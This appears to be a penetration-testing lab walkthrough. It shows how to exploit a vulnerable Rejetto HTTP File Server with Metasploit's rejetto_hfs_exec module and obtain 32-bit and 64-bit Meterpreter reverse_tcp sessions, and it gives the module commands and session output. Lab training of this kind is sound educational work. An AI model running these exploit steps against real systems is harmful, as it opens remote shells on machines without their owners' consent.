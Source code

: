 ```
search type:exploit name:rejetto
```

```
use exploit/windows/http/rejetto_hfs_exec
show options
info
run
```

It automatically opens up a Meterpreter session.

```
meterpreter > sysinfo
...
Architecture : x64
Meterpreter : x86/windows 
meterpreter > exit
```

We were able to obtain a Meterpreter session without specifying a payload. The reason that was the case is because we have two options that we can specify for this module.

`SRVHOST`: This is the local host to listen on. This must be an address on the local machine that's used to deliver the payload.

`SRVPORT`

We can change the type of payload that we're utilizing based on the operating system architecture we want. 

```
set payload windows/x64/meterpreter/reverse_tcp
show options
run
```

We have a 64-bit Meterpreter session as opposed to previously, when the default payload specified was the 32-bit Meterpreter payload. 

```
meterpreter > sysinfo
...
Architecture : x64
Meterpreter : x64/windows
```

You can always customize the payload you use for every exploit module based on the target operating system, as well as the architecture.

That is how to exploit a vulnerable HTTP File Server.

# Windows: HTTP File Server
## Overview
A Kali GUI machine and a target machine running a vulnerable HTTP File Server server are provided to you. The IP address of the target machine is provided in a text file named target placed on the Desktop of the Kali machine (/root/Desktop/target).  
